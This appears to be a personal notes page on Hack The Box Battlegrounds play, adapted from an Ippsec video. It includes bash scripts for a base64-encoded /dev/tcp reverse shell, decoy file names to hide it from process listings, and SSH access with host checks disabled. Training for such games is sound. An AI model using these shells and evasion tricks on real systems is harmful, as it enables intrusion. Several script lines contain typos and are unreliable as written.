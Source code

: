 # Battlegrounds 

**"If you know the enemy and know yourself, you need not fear the results of a hundred battles. If you know yourself but not the enemy, for every victory gained you will also suffer defeat."* - Sun Tzu, Art of War.

Try to, at some point I want to master hacking in a battlegrounds context. This hope is that this will morph into an instructional Art of War for Hacking. From absolute novice to master.

## Ippsec Introductional Scripting
[Hack The Box Hacking Battlegrounds - Cyber Mayhem Gameplay with Ippsec](https://www.youtube.com/watch?v=o42dgCOBkRk)

This section is notation and inpsired by Ippsec's "{"workflow"}" from around Oct 2020. Methods change and this document should also reflect that knowledge is power. Knowing your enemy and what they know is power. Defense and Attack are both in a context of conflict are the same thing - action to end conflict.

Requirements:
1. Tmux or equivalent and setup to manage connections, information and tools.
Although not stated by Ippsec a tmux scripting to setup a terminal multiplexer of 
```bash
#!/bin/bash

tmux new -s Battleground 
tmux new-window -t SERVER
tmux new-window -t HOME
tmux new-window -t BLUE
tmux new-window -t MSF
tmux new-window -t ATK

tmxu send-keys -t HOME 'cp bg/ /tmp; cd tmp/bg' #setup 
tmux send-keys -t HOME './startBGs.sh'
```

2. StartBG.sh 
```bash
#!/bin/bash

cp -r www-skel/ www/
sed -i "s/$IP/$1/g" www/*
cp www/$reverseshell www/$decoy-name
cp www/$reverseshell www/$decoy-name 
echo "bash -c 'bash -i >& /dev/tcp/$1/$port 0>&1'" >> www/shell.sh
SHELL=$(cat www/shell.sh | base64 -w 0)
echo "echo -n '$SHELL' | bash64 -d | bash" >> www/shell.b64.sh
```
IP variable in the third line must be changed to match a default script variable.
The b64 version is to bypass badchars and filtering.  
Decoy naming: the variable in this script is such that the naming of the shell in the file directory it is run from or process directory `/proc/$int` as process. The file names below were given as examples of ways to avoid detection from other players. Each player has some idea of what is regularly in the www directory so a wordpress file would seem ordinary were as long string of 'a's could clutter the process tree or overflow to the textual display obfuscating another players `ps -aux` command.
```bash
decoy-name=#of the following
wp-load.php
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaah-RCE.php.gif
```

3. accesscastle.sh $IP $PASSWORD
```bash
#!/bin/bash
# Ippsec castle access script from Hack the Box Hacking Battlegrounds video
sshpass -p $2 ssh -o GlobalKnownHostsFile=/dev/null -o UserKnownHostsFile=/dev/null -o StrictHostKeysChecking=no root@$1
```

4. getflags.sh 
This script will access the castles access the hostkeys and print out the flags. It will ask for a password if the hostkey is NOT there.
```bash
for i in $(seq 105 108); do
        echo "10.10.110.$i"
        ssh -o "BatchMode=Yes" -o "StrictHostKeyChecking=no" \
                -o "GlobalKnownHostsFile=/dev/null" -o "UserKnownHostsFile=/dev/null" \
                -i $privatekey \
                root@10.10.110.$i "cat /root/flag.txt; echo; cat /opt/flag.txt; echo" 2>/dev/null
        done
```

5. Metasploit is efficient. Hacking without makes you better; Metasploit streamline exploit execution chain. Speed and time are important and without metasploit research and script fixing takes time.  Shell stablisation is plain for defenders to see, with metaspoit shell there is no need to stablise.

6. Create more panes for Tmux 

8. Configure Burp proxy(if using firefox to Hack from) `Proxy -> Options -> Intercept Client Request -> Add -> Match Relationship = IP address; Match condition 10.10.110.100-120` and disabling Websockets Messages on the same Proxy tab, Options `Intercept WebSockets Messages -> untick Intercept client-to-server messages & untick Intercept server-to-client messages`. This stop the background page slowing down request cycling stopping you from intercepting Battleground relevant pages.

## On Castle Enumeration
```bash
ps -aef --forest

## References

[Hack The Box Hacking Battlegrounds - Cyber Mayhem Gameplay with Ippsec](https://www.youtube.com/watch?v=o42dgCOBkRk)
[Tmux Scripting](https://tao-of-tmux.readthedocs.io/en/latest/manuscript/10-scripting.html)


Cyberwarfare

